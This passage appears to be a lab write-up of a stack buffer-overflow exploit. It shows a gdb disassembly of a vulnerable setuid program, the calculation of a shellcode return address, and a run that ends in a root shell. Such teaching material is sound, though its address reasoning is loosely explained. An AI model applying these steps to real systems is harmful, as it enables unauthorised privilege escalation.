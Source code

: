 To beginnig the attack, we need the address of shellcode.
```sh
seed@ubuntu:~/Desktop$ gdb --quiet stack
Reading symbols from /home/seed/Desktop/stack...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x080484a3 <+0>:	    push   %ebp
   0x080484a4 <+1>:	    mov    %esp,%ebp
   0x080484a6 <+3>:	    and    $0xfffffff0,%esp
   0x080484a9 <+6>:	    sub    $0x220,%esp
   0x080484af <+12>:	mov    $0x80485f0,%edx
   0x080484b4 <+17>:	mov    $0x80485f2,%eax
   0x080484b9 <+22>:	mov    %edx,0x4(%esp)
   0x080484bd <+26>:	mov    %eax,(%esp)
   0x080484c0 <+29>:	call   0x80483c0 <fopen@plt>
   0x080484c5 <+34>:	mov    %eax,0x21c(%esp)
   0x080484cc <+41>:	lea    0x17(%esp),%eax
   0x080484d0 <+45>:	mov    0x21c(%esp),%edx
   0x080484d7 <+52>:	mov    %edx,0xc(%esp)
   0x080484db <+56>:	movl   $0x205,0x8(%esp)
   0x080484e3 <+64>:	movl   $0x1,0x4(%esp)
   0x080484eb <+72>:	mov    %eax,(%esp)
   0x080484ee <+75>:	call   0x8048370 <fread@plt>
   0x080484f3 <+80>:	lea    0x17(%esp),%eax
   0x080484f7 <+84>:	mov    %eax,(%esp)
   0x080484fa <+87>:	call   0x8048484 <bof>
   0x080484ff <+92>:	movl   $0x80485fa,(%esp)
   0x08048506 <+99>:	call   0x8048390 <puts@plt>
   0x0804850b <+104>:	mov    $0x1,%eax
   0x08048510 <+109>:	leave  
   0x08048511 <+110>:	ret    
End of assembler dump.
(gdb) b *0x080484af
Breakpoint 1 at 0x80484af
(gdb) r
Starting program: /home/seed/Desktop/stack

Breakpoint 1, 0x080484af in main ()
(gdb) i r $esp
esp            0xbffff150	0xbffff150
```
We know `esp`'s value is the beginning address of `str`, according to `strcpy(buffer+100,shellcode);`, we can calculate shellcode's address is 0xbffff150(HEX)+100(DEC)=0xbffff1b4(HEX). We replace `\x??\x??\x??\x??` to `\xb4\xf1\xff\xbf`, because when buffer overflow happened this place's return address will be overwrite.

After we finish the above program, compile and run it. This will generate the contents for "badfile". Then run the vulnerable program stack. If our exploit is implemented correctly, we should be able to get a root shell.
```sh
[08/10/2016 05:56] seed@ubuntu:~/Desktop$ ./exploit
[08/10/2016 05:56] seed@ubuntu:~/Desktop$ ./stack
# whoami
root
```
